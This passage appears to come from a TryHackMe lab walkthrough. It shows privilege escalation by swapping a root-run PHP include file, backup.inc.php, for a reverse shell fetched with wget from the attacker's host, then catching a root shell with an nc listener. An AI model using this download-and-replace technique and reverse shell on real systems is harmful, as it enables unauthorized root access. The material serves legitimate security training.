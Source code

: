   ```
  sysadmin@ip-10-10-89-16:~/scripts/lib$ ls -al
  total 132
  drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
  drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
  -rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
  -rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
  -rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
  -rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
  -rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
  -rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
  -rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
  -rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
  -rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
  -rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
  -rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
  -rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
  -rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php

  sysadmin@ip-10-10-89-16:~/scripts/lib$ rm -rf backup.inc.php

  sysadmin@ip-10-10-89-16:~/scripts/lib$ ls -al
  total 128
  drwxr-xr-x 2 sysadmin root  4096 Jun  3 20:42 .
  drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
  -rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
  -rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
  -rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
  -rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
  -rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
  -rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
  -rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
  -rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
  -rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
  -rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
  -rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
  -rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
  ```
  
- Now upload the same shell you uploaded to `/cloud` in order to get initial access.

  ```
  sysadmin@ip-10-10-89-16:~/scripts/lib$ wget http://[YOUR-THM-IP]:80/shell.php -O backup.inc.php
  --2025-06-03 20:43:06--  http://[YOUR-THM-IP]/shell.php
  Connecting to [YOUR-THM-IP]:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 5493 (5.4K) [application/octet-stream]
  Saving to: ‘backup.inc.php’
  
  backup.inc.php                100%[==============================================>]   5.36K  --.-KB/s    in 0s      
  
  2025-06-03 20:43:06 (545 MB/s) - ‘backup.inc.php’ saved [5493/5493]

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.89.16] 54364
  Linux ip-10-10-89-16 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
   20:44:01 up  1:07,  1 user,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  sysadmin pts/0    10.8.120.52      20:34   57.00s  0.06s  0.06s -bash
  uid=0(root) gid=0(root) groups=0(root)
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  ```